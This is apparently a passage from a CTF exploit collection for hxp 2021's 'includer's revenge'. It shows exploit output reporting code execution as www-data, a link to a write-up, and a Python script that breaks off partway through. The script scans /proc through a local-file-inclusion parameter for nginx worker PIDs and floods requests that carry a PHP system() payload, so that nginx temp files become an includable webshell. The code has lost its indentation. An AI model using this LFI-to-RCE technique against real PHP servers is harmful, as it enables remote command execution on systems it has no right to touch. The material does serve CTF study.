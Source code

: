 ```
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] brute loop restarted: 33
[+] brute loop restarted: 34
[!] /proc/self/fd/34/../../../34/fd/9: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Qapla'!

Qapla'! [https://lewin.co.il/winning-the-impossible-race-an-unintended-solution-for-includers-revenge-counter-hxp-2021/](https://lewin.co.il/winning-the-impossible-race-an-unintended-solution-for-includers-revenge-counter-hxp-2021/)
```python
import requests
import threading
import multiprocessing
import threading
import random

SERVER = "http://localhost:8088"
NGINX_PIDS_CACHE = set([34, 35, 36, 37, 38, 39, 40, 41])
# Set the following to True to use the above set of PIDs instead of scanning:
USE_NGINX_PIDS_CACHE = False

def create_requests_session():
session = requests.Session()
# Create a large HTTP connection pool to make HTTP requests as fast as possible without TCP handshake overhead
adapter = requests.adapters.HTTPAdapter(pool_connections=1000, pool_maxsize=10000)
session.mount('http://', adapter)
return session

def get_nginx_pids(requests_session):
if USE_NGINX_PIDS_CACHE:
return NGINX_PIDS_CACHE
nginx_pids = set()
# Scan up to PID 200
for i in range(1, 200):
cmdline = requests_session.get(SERVER + f"/?action=read&file=/proc/{i}/cmdline").text
if cmdline.startswith("nginx: worker process"):
nginx_pids.add(i)
return nginx_pids

def send_payload(requests_session, body_size=1024000):
try:
# The file path (/bla) doesn't need to exist - we simply need to upload a large body to Nginx and fail fast
payload = '<?php system("/readflag"); ?> //'
requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
except:
pass

def send_payload_worker(requests_session):
while True:
send_payload(requests_session)

def send_payload_multiprocess(requests_session):
```